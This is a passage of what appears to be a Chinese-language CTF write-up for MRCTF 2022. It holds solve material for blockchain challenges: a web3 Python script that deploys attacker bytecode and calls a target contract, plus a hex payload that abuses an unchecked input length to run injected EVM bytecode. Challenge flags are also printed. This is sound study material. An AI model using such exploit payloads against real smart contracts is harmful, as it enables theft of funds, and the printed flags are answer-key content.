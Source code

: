     data = get_txn(hacker, None, bytes.fromhex("60006000556006601160003960066000f3600060005500"))
    transaction = w3.eth.account.signTransaction(data, privateKey).rawTransaction
    txn_hash = w3.eth.sendRawTransaction(transaction).hex()
    txn_receipt = w3.eth.waitForTransactionReceipt(txn_hash)
    print(txn_receipt)

    contractAddress = txn_receipt['contractAddress']

    data = get_txn(hacker, target, bytes.fromhex("522bb704000000000000000000000000" + contractAddress[2:]))
    transaction = w3.eth.account.signTransaction(data, privateKey).rawTransaction
    txn_hash = w3.eth.sendRawTransaction(transaction).hex()
    txn_receipt = w3.eth.waitForTransactionReceipt(txn_hash)
    print(txn_receipt)
    ```

flag: **MRCTF{TheShor7testShel1c0dE&EIP-2929}**

## JOP_Gadget
![](https://img.shields.io/badge/-BLOCKCHAIN-orange?style=flat-square)

题目的意思就是会先把输入 PUSH2 进去，然后执行，开头会先 JUMP

看到出题人给的数据解析可以发现没有检查长度

![Untitled](/assets/images/writeups/mrctf2022/Untitled%204.png)

所以如果输入的长度并不是 uint16，那么后面的就会被当成正常的字节码来运行，所以只需要在一个 16 位 padding 后面接上正常返回 1 的字节码就可以在运行的时候直接返回 1

例如 `0x123450600160805260206080f300` 也就变成了：
```asm
PUSH2 1234
POP
PUSH1 0x01
PUSH1 0x80
MSTORE
PUSH1 0x20
PUSH1 0x80
RETURN
STOP
```

flag: **MRCTF{You_4r3_7hE_master_0f_F1nD1ng_G4g3t_0r_t73_K1ng_07_the_vuln_guesser&F0under}**

---

## Bleach!
![](https://img.shields.io/badge/-MISC-informational?style=flat-square)

> 赛后补做的题

流量分析看到一堆 UDP 协议和 OICQ 协议

在赛后看了 nano 的 wp 后知道那一大堆 UDP 是在 UDP 基础上的 RTP 协议，要在 wireshark 里 decode as RTP 才能显示为 RTP 流
